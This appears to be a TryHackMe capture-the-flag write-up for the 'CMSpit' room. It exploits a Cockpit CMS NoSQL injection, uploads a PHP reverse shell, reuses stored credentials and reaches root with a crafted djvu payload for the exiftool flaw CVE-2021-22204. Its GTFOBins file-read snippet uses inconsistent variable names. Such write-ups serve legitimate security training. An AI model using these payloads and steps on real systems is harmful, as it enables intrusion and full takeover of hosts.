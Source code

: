 Room: [CMSpit](https://tryhackme.com/room/cmspit)

Difficulty: Medium

Overview: In this room we are going to exploit a NoSQL injection vulnerability on CMS concrete5 webserver, privesc horizontaly and then verticaly taking advantage of a fresh exploit for a tool called Exiftool.

--------------------------------------------------------------------------------------------------------------------------------------------------------------------

Let's start our enumeration fase with "nmap" and search for all open ports on the target system:

```
nmap -sV -sC -p- cmspit.thm -oN nmap.txt

-sV    →  Probe open ports to determine service
-sC    →  Scan using the default set of scripts
-p-    →  Scan all ports
-oN    →  Save the ouput of the scan in a file
```

![image](https://user-images.githubusercontent.com/76821053/130663300-0daf3ea7-10d5-4683-a33b-c5c7f9926436.png)

There are only two open ports:

22  →  OpenSSH 7.2p2

80  →  Apache httpd 2.4.18

After visiting the webpage i was redirected to a login portal:

![image](https://user-images.githubusercontent.com/76821053/130663322-4f143cb8-3435-45e4-88ba-50a7688e3115.png)

To better analyze the webserver we can use “nikto” which performs comprehensive scan tests against web servers:

```
nikto -h http://cmspit.thm
```

![image](https://user-images.githubusercontent.com/76821053/130663353-a2ccd257-07b3-4d01-8ecb-0dc3e8006878.png)

We found a file that contains usefull information:

![image](https://user-images.githubusercontent.com/76821053/130663377-8f4148cd-2a5b-4c3f-bd21-643e16fe622a.png)

Now that we have information about the content management system, its name and version. We can search [exploit-db](https://www.exploit-db.com/) for a possible exploit:

![image](https://user-images.githubusercontent.com/76821053/130663403-9d54e3c6-a765-4daf-a9b4-08c50504ec5f.png)

There is a exploit with a CVE number of CVE-2020-35846. This exploit takes advantage of NoSQL injection in /auth/check path which will let us do some username enumeration and password reset. You can find more information about this exploit at [PT SWARM webpage](https://swarm.ptsecurity.com/rce-cockpit-cms/). They have a brake down of this exploit in detail. 

So to automate this process we are going to use the exploit script that we found at exploit-db, this exploit is a combination of CVE-2020-35847 and CVE-2020-35848:

```
python3 cockpit_exploit.py -u http://cmspit.thm
```

![image](https://user-images.githubusercontent.com/76821053/130663470-7bb60910-680e-4aec-9bd0-68d46564bd08.png)

This exploits found all the users in the database. If we want to find the email address of "skidy" we can just rerun the exploit and choose a diferent username:

![image](https://user-images.githubusercontent.com/76821053/130663496-d0b3c798-24e7-4640-abf4-d8b03f6727a4.png)

Now we can login to the webserver with the newly created “admin” credentials:

![image](https://user-images.githubusercontent.com/76821053/130663516-5053baa8-cd6f-4d15-806a-2512f7f42c54.png)

After browsing the admin dashboard there is an option to upload files to the webserver, so we are going to upload a php payload to get a reverse shell connection.

The php payload that i like to use is from “pentestmonkey”, we can download it from his [github page](https://github.com/pentestmonkey/php-reverse-shell).

We need to change this two parameters, ip and port:

![image](https://user-images.githubusercontent.com/76821053/130663540-5c05d719-94e6-439a-b53f-206f262673c0.png)

To upload the shell. From the dashboard choose “Finder”:

![image](https://user-images.githubusercontent.com/76821053/130663563-b91138cc-6ab9-4009-9767-cbc01e77e4c8.png)

And upload the payload to, for example "install" directory:

![image](https://user-images.githubusercontent.com/76821053/130663586-83207272-723b-47fb-a639-d2d48cf71e96.png)

To trigger the payload we just need to go to the correct url path:

```
http://ip_of_room/install/php-reverse-shell.php
```

![image](https://user-images.githubusercontent.com/76821053/130663629-5503c09d-f36f-4308-b871-2495679f7ce4.png)

And in our listener we receiver a shell:

![image](https://user-images.githubusercontent.com/76821053/130663675-ad2eea14-f9e1-47cd-8488-6e7bfaaccc6f.png)

To upgrade our shell to a tty one we can use this python command:

```
python3 -c "__import__('pty').spawn('/bin/bash')"
```

![image](https://user-images.githubusercontent.com/76821053/130663702-5dc9d078-ab92-4e14-8bd3-eb5f7131727e.png)

We can find the web flag at "/var/www/html/cockpit". Everytime we need to find a web related flag we should always start at the home of html path server:

![image](https://user-images.githubusercontent.com/76821053/130663729-dd85466a-fdd9-49f2-9132-45cbeb648058.png)

Enumerating the machine further we can escalate our privileges by checking user “stux” home directory:

![image](https://user-images.githubusercontent.com/76821053/130663754-dc274087-e2ce-4029-93c7-ffbd6ed376fc.png)

Inside his directory there is a database file called ".dbshell":

![image](https://user-images.githubusercontent.com/76821053/130663779-eb933f36-b75d-4d7b-bc93-6905a3e16ba9.png)

We have credentials for “stux” so let's login into that user:

```
su stux
```

![image](https://user-images.githubusercontent.com/76821053/130663805-9ec8f3dc-3051-4d67-ab83-c5983d2d3764.png)

With “stux” we can read the user flag:

![image](https://user-images.githubusercontent.com/76821053/130663832-2c8b4b5a-ace7-44f2-8235-22655cddf6dc.png)

Now that we are user “stux” let's check his sudo permitions:

```
sudo -l
```

![image](https://user-images.githubusercontent.com/76821053/130663855-4e1a96a9-728a-4e07-9502-3f325f75aee3.png)

“stux” can ran sudo on "exiftool" has user “root”. So let's head to [GTFOBins](https://gtfobins.github.io/gtfobins/exiftool/) and to see if there is any way we can exploit exiftool:

![image](https://user-images.githubusercontent.com/76821053/130663871-e38f081a-bb67-45b9-966e-72e01700391d.png)

Having sudo permissions to run exiftool we can easily read the root.txt flag if we follow GTFOBins read method:

```
LFILE=/root/root.txt
OUPUT=/home/stux/privesc
sudo exiftool -filename=$OUTPUT $FILE
cat $OUTPUT
```

![image](https://user-images.githubusercontent.com/76821053/130663893-48a725d2-e7b5-4477-9f3e-16078500ae52.png)

Now, if we want to escalate our privileges to “root” user we need to take advantage of a exiftool vulnerability.

This vulnerability has a CVE number of CVE-2021-22204:

![image](https://user-images.githubusercontent.com/76821053/130663938-2eca61ed-b152-4ccf-91da-e6ec19299961.png)

There is an awesome report on this bug in detail by [Convisoappsec](https://blog.convisoappsec.com/en/a-case-study-on-cve-2021-22204-exiftool-rce/).

There you will learn how to exploit the system by taking advantage of a tool called “djvumake”:

![image](https://user-images.githubusercontent.com/76821053/130663950-83e3b5d6-f2ce-4c87-b56e-7792eeb7ebf0.png)

Let's follow the steps and reproduce this vulnerability:

First we need to create a payload and save it to a file:

```
(metadata “\c${system('/bin/bash -p')};”)
``` 

![image](https://user-images.githubusercontent.com/76821053/130663968-94c0b308-a329-407c-8464-645d172a41be.png)

Next we need to compress the payload, create a .djvu file and trigger the exploit with exiftool:

```
bzz payload payload.bzz

djvumake exploit.djvu INFO='1,1' BGjp=/dev/null ANTz=payload.bzz

sudo exiftool exploit.djvu
```

![image](https://user-images.githubusercontent.com/76821053/130664000-ce9897db-e146-42f2-91f1-ecbd612c1ea6.png)

Success, we are now “root”!!!

We can access “root's” directory directly and read the root.txt file:

![image](https://user-images.githubusercontent.com/76821053/130664023-d82d961c-e580-4015-a5b0-a5df97ce2c63.png)
















